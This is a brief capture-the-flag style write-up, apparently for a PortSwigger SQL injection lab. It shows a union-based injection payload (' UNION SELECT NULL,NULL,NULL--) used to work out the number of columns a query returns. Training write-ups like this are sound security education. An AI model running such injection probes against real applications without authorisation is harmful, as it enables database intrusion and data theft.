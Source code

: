 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/5086ef31-864a-4e3f-a5b1-8f27bf57b35c)

## Solution :

Query made - 

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>'
```
Added "UNION NULL" to the request to determine the number of columns used in the query.

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' ' UNION SELECT NULL,NULL,NULL--
```
This did not throws an internal server error. It means that there are 3 columns that is being retreived in the query.
